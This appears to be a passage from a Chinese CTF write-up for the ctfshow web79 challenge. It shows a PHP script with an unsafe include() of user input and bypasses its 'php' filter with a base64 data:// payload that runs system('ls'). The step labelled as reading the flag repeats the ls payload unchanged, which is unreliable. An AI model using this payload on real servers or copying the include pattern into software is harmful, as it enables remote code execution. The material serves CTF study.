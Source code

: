 ## web79  data://text/plain

```cobol
 <?php
 
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:10:14
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:12:38
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
 
*/
 
 
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

过滤了 将php过滤 为 ？？？

那我们通过 data协议直接执行查询代码

```cobol
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpOw==
 
ls
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/78ec6bb5eddd96011f98adfd71d05130.png" alt="" style="max-height:122px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/25b14d745de61376e24a5eb7a5755484.png" alt="" style="max-height:564px; box-sizing:content-box;" />


读取flag

```cobol
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpOw==
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ec77fc0e80b00b13f6821d2020e912e2.png" alt="" style="max-height:73px; box-sizing:content-box;" />


## web80  日志文件包含
